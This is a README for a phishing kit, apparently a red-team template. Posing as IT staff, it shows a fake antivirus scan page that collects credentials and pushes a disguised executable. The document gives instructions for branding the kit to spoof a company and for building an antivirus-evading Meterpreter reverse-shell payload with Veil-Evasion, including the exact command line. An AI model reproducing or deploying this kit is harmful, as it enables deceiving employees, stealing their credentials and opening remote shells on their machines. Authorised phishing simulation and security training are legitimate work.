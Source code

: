 s# AV Update Template

**Objective:** Credential harvesting *and* shell

## Pretext:
Spoofing as an IT administrator, you're pushing out new antivirus software and need users to help run an automated scan to see if the new software was pushed to their computer and is up-to-date. After the scan page reaches around 70%, the page redirects and notifies the user that they need to download and run a file becuase their AV is out of date.

## Things you'll need to change:
* File: ./login: 
  * name="logo" -> update to the company logo
  * Store company logo in the images folder. name it logo.png

* File: ./scan: 
  * name="logo" -> update to company logo

* File: /include/style-login-new.css
  * footer#bottom -> update the background:# to the spoofed company color if wanted. 
  * header -> update background-color:# to spoofed company color if wanted.
* File: PartnerPlus_Antivirus_v3.5.3.exe
  * Create your own executable file. MSFVenom gets popped by AV, so use Veil if possible. Instructions are below.

## Creating your own Executable using Veil Framework:
1. Setting up Veil-Evasion 
  a. git clone git@github.com:Veil-Framework/Veil-Evasion.git
  b. cd veil-Evasion
  c. ./setup/setup.sh -s
2. Creating a payload
  a. you can use the step-by-step instructions found in step 2.b. or modify and use the one-liner below
    * # ./Veil-Evasion.py  -l  python -p python/b64_substitution  -o trytofindthis –msfpayload windows/meterpreter/reverse_tcp –msfoptions LHOST=<listening box> LPORT=443
  b. tutorial: https://sathisharthars.wordpress.com/2014/06/07/evading-antivirus-using-veil-framework-in-kali-linux/
3. **MAKE SURE YOU NAME IT** PartnerPlus_Antivirus_v3.5.3.exe or you'll have to edit the 'failed' page.

